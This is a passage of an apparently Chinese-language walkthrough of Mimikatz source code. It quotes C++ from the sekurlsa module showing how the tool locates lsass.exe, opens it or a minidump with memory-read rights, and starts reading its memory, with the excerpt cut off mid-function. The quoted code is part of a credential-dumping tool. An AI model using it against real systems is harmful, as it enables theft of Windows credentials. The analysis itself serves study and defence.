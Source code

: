 ```c++
                                LocalFree(sessionData.pSid);

                            data.address = ((PLIST_ENTRY) (aBuffer.address))-&gt;Flink;
                        }
                        else break;
                    }
                }
                LocalFree(aBuffer.address);
            }
        }
    }
    return status;
}
```

可以看到，首先会调用 `kuhl_m_sekurlsa_acquireLSA()` 函数，该函数的作用是提取 lsass.exe 的进程信息。

Extract LSA Information
=======================

跟进 `kuhl_m_sekurlsa_acquireLSA()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa.c

```c++
NTSTATUS kuhl_m_sekurlsa_acquireLSA()
{
    NTSTATUS status = STATUS_SUCCESS;
    KULL_M_MEMORY_TYPE Type;
    HANDLE hData = NULL;
    DWORD pid, cbSk;
    PMINIDUMP_SYSTEM_INFO pInfos;
    DWORD processRights = PROCESS_VM_READ | ((MIMIKATZ_NT_MAJOR_VERSION &lt; 6) ? PROCESS_QUERY_INFORMATION : PROCESS_QUERY_LIMITED_INFORMATION);
    BOOL isError = FALSE;
    PBYTE pSk;

    // 
    if(!cLsass.hLsassMem)
    {
        status = STATUS_NOT_FOUND;
        if(pMinidumpName)
        {
            Type = KULL_M_MEMORY_TYPE_PROCESS_DMP;
            kprintf(L"Opening : \'%s\' file for minidump...\n", pMinidumpName);
            hData = CreateFile(pMinidumpName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
        }
        else
        {
            Type = KULL_M_MEMORY_TYPE_PROCESS;
            // 获取 lsass.exe 进程的 PID
            if(kull_m_process_getProcessIdForName(L"lsass.exe", &amp;pid))
                // 打开 lsass.exe 进程的句柄
                hData = OpenProcess(processRights, FALSE, pid);
            else PRINT_ERROR(L"LSASS process not found (?)\n");
        }

        if(hData &amp;&amp; hData != INVALID_HANDLE_VALUE)
        {
            if(kull_m_memory_open(Type, hData, &amp;cLsass.hLsassMem))
            {
                if(Type == KULL_M_MEMORY_TYPE_PROCESS_DMP)
                {
                    // ......
```
